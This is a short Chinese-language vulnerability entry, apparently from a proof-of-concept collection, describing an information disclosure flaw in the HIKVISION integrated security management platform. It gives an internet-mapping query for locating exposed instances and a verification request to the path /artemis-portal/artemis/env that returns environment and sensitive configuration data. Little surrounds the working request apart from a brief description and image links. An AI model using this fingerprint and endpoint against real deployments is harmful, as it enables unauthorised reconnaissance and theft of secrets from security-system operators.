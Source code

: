 # 

# HIKVISION 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

HIKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](./images/202208241341481.png)

验证POC

```
/artemis-portal/artemis/env 
```

![image-20230828163057813](images/image-20230828163057813.png)
